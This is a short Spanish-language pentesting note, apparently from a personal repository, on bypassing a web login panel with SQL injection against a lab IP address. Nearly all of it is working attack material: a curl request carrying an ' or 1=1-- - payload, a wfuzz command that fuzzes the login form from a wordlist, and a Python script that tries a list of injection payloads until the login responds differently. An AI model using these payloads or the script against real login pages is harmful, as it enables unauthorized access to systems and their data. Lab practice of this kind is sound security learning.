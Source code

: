 ```yaml
---
title : Web-Panel-Sql
published : True
---
```

* <p> Sql injection en panel de login</p>

```python
#Injeccion sql en panel administrador, desde petenciones con curl:
curl -s -X POST "http://10.10.254.165/login.php" -d "username='|| or 1=1-- - &password=-- -" -i

#Injeccion sql en base a un wordlist de injeccion sql:
wfuzz -t 20 -c -z file,wordlists.txt -d "username=FUZZ\&password=FUZZ" http://10.10.254.165/login.php
```
* <p>Sabiendo estos datos puedo crear perfectamente un script en python que aplique injeccion sql en paneles administradores</p>
<p></p>
```python
#!/usr/bin/python
import requests

id_username = 'username'
id_password = 'password'
url = 'http://10.10.254.165/login.php'
 
sql_payload = [

    "' or 1=1-- -",
    "' || or 1=1-- -",
    "' 1=1-- -"

]
for list in sql_payload:
    datos = requests.post(url, data={id_username : list, id_password : list}, allow_redirects=False)
    if datos.status_code != 200:
        print("[+] Injection sql sucess :", list)
        exit()
    print("Failed : ", datos.status_code, list)


```
